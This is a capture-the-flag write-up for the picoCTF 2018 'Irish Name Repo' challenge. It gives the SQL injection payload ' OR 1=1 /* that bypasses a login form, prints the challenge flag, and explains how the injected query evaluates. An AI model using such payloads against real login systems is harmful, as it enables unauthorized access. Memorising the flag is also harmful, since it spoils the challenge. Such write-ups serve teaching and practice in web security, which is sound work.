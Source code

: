 # Irish Name Repo


### Problem
There is a website running at [http://2018shell.picoctf.com:52012](http://2018shell.picoctf.com:52012). Do you think you can log us in? Try to see if you can login!


### Solution
The solution to this problem is to go to the [login page](http://2018shell.picoctf.com:52012/login.html) and enter the following SQL injection in the username field: `' OR 1=1 /*`.

You'll be logged in and the webpage would have the flag **picoCTF{con4n_r3411y_1snt_1r1sh_c0d93e2f}**.


#### Why does this work?
The SQL injection above will become something similar to the following:

```
SELECT userid
FROM users 
WHERE username = '' OR 1=1 /*' 
  AND password = ''
  AND domain = ''
```

The first single quote ends the string field, the `OR 1=1` ensures that the SQL query evaluates to `TRUE` and the `/*` is an attempt to start a multiline comment so the rest of the query is ignored.
